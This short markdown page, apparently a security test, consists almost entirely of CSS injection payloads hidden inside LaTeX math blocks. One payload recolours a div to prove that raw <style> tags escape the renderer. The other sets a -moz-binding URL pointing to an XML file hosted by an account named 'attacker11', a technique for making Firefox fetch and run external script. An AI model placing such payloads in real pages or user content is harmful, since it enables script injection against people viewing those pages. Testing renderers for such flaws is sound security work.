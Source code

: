 ## test

$$\<style>div{background-color:#66f3e6}</style>{}$$

$$\<style>body{-moz-binding: url(https://raw.githubusercontent.com/attacker11/randommmmm-test-12345/main/script.xml?token=GHSAT0AAAAAABK55AHCOGKBMTWLOZUPZGFQYUH3STA#mycode);}</style>{}$$
